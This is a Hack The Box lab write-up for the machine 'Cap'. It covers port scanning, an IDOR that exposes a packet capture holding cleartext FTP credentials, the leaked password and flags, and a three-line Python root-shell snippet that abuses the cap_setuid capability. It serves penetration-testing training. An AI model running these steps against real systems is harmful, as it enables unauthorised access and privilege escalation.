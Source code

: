 # HTB: Cap

## Engagement Overview
**Target:** Cap
**Box IP:** 10.10.10.245
**Local IP:** 10.10.14.16
**Date:** 2025-07-21

---

### Objectives
- Discover and exploit an IDOR to access sensitive captures
- Extract credentials from a packet capture (pcap)
- Use leaked credentials to obtain a shell and escalate to root via Linux capabilities

---

## Service Enumeration

```bash
# Full TCP scan (condensed)
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.245
nmap -p 21,22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.245
```

**Relevant outputs / findings:**
- Port 21 – FTP (vsftpd 3.0.3) — no anonymous access
- Port 22 – SSH (OpenSSH 8.2p1)
- Port 80 – HTTP (Gunicorn, Python-based web app)
- Gunicorn dashboard and predictable `/data/<id>` endpoints indicated possible IDOR

---

## Initial Access

### IDOR Discovery & PCAP Extraction
- Accessing `/data/0` returned a packet capture (pcap) not generated by current session — classic IDOR.
- Downloaded pcap and analyzed in Wireshark to recover cleartext credentials:
  - `USER: nathan`
  - `PASS: Buck3tH4TF0RM3!`

### Foothold via FTP/SSH
```bash
ftp 10.10.10.245
# login: nathan / Buck3tH4TF0RM3!
ftp> get user.txt  # user flag retrieved: e64084b4cf1836347593df12f6a16b75
```
- SSH access confirmed using same credentials for `nathan`

---

## Privilege Escalation

### LinPEAS findings
```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Because `python3.8` has the `cap_setuid` capability, it can be used to escalate privileges by changing UID to 0 and spawning a shell.

**Exploit (performed on target):**
```python
import os
os.setuid(0)
os.system("/bin/bash")
```

**Result:** Root shell obtained. `root.txt` captured: `f0f8a2a1d4bfdea7688e471cf3ad04a4`

---

## House Cleaning / Post-Exploitation

- Removed `linpeas.sh` and cleared command history where appropriate
- No persistent backdoors left

**Flags:**
- `user.txt`: `e64084b4cf1836347593df12f6a16b75`
- `root.txt`: `f0f8a2a1d4bfdea7688e471cf3ad04a4`

---

## Tools Utilized
- nmap, ftp, ssh, python3
- Wireshark
- LinPEAS

---

## Key Takeaways
- IDORs exposing resources like pcaps can leak highly sensitive credentials.
- Linux capabilities (caps) provide alternate privilege escalation routes beyond setuid binaries.
- Packet analysis skills (Wireshark) are critical for extracting cleartext credentials from captures.
